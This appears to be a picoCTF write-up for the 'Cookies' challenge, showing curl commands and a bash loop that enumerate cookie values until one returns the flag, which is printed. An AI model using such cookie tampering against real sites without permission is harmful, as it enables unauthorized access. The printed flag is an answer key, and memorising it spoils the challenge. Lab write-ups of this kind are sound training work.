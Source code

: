 I was given a task to find the "best" cookie on a challenge site.

The first thing I did was use `curl` to check for any cookies set by the server.

By sending a `GET` request to the URL, I found that the server set a cookie called "name" with the value `-1`.

From there, I tried modifying the cookie and iterated through a range of values, hoping to find one that returned something different from the default response.

When I set the cookie value to `0` and made the request, the response said that the cookie wasn’t special, so I continued testing with a loop.

After trying values from 1 to 20, I found that when the value was set to `18`, the response changed significantly.

It mentioned a flag and provided a clear hint, so I knew that was the one I was looking for; the flag.

It was a fun exercise of interacting with the server via cookies and figuring out which one was "special".

Code:
```
root@LAPTOP-GEM5SRL1:~# curl -s http://mercury.picoctf.net:54219/ -I | grep Cookie
Set-Cookie: name=-1; Path=/
root@LAPTOP-GEM5SRL1:~# curl -s http://mercury.picoctf.net:54219/ -H "Cookie: name=0;" -L | grep -i Cookie
    <title>Cookies</title>
            <h3 class="text-muted">Cookies</h3>
          <!-- <strong>Title</strong> --> That is a cookie! Not very special though...
            <p style="text-align:center; font-size:30px;"><b>I love snickerdoodle cookies!</b></p>
root@LAPTOP-GEM5SRL1:~# for i in {1..20}; do
> for>     contents=$(curl -s http://mercury.picoctf.net:27177/ -H "Cookie: name=$i; Path=/" -L)
for>     if ! echo "$contents" | grep -q "Not very special"; then
for then>         echo "Cookie #$i is special"
for then>         echo $contents | grep "pico"
for then>         break
for then>     fi
for> done
-bash: syntax error near unexpected token `>'
-bash: syntax error near unexpected token `>'
-bash: syntax error near unexpected token `>'
-bash: syntax error near unexpected token `>'
-bash: syntax error near unexpected token `>'
-bash: syntax error near unexpected token `>'
-bash: syntax error near unexpected token `>'
root@LAPTOP-GEM5SRL1:~# for i in {1..20}; do
> contents=$(curl -s http://mercury.picoctf.net:54219/ -H "Cookie: name=$i; Path=/" -L)
> if ! echo "$contents" | grep -q "Not very special"; then
> echo "Cookie #$i is special"
> echo $contents | grep "pico"
> break
> fi
> done
Cookie #18 is special
<!DOCTYPE html> <html lang="en"> <head> <title>Cookies</title> <link href="https://maxcdn.bootstrapcdn.com/bootstrap/3.2.0/css/bootstrap.min.css" rel="stylesheet"> <link href="https://getbootstrap.com/docs/3.3/examples/jumbotron-narrow/jumbotron-narrow.css" rel="stylesheet"> <script src="https://ajax.googleapis.com/ajax/libs/jquery/3.3.1/jquery.min.js"></script> <script src="https://maxcdn.bootstrapcdn.com/bootstrap/3.3.7/js/bootstrap.min.js"></script> </head> <body> <div class="container"> <div class="header"> <nav> <ul class="nav nav-pills pull-right"> <li role="presentation"><a href="/reset" class="btn btn-link pull-right">Home</a> </li> </ul> </nav> <h3 class="text-muted">Cookies</h3> </div> <div class="jumbotron"> <p class="lead"></p> <p style="text-align:center; font-size:30px;"><b>Flag</b>: <code>picoCTF{3v3ry1_l0v3s_c00k135_96cdadfd}</code></p> </div> <footer class="footer"> <p>&copy; PicoCTF</p> </footer> </div> </body> </html>
root@LAPTOP-GEM5SRL1:~#
```

![Screenshot (754)](https://github.com/user-attachments/assets/47241a5c-1d86-4b46-bec0-9c85c06ba90a)


![Screenshot (1266)](https://github.com/user-attachments/assets/362c99c7-e5df-4846-9595-06891b3a4472)


**picoCTF{3v3ry1_l0v3s_c00k135_96cdadfd}**
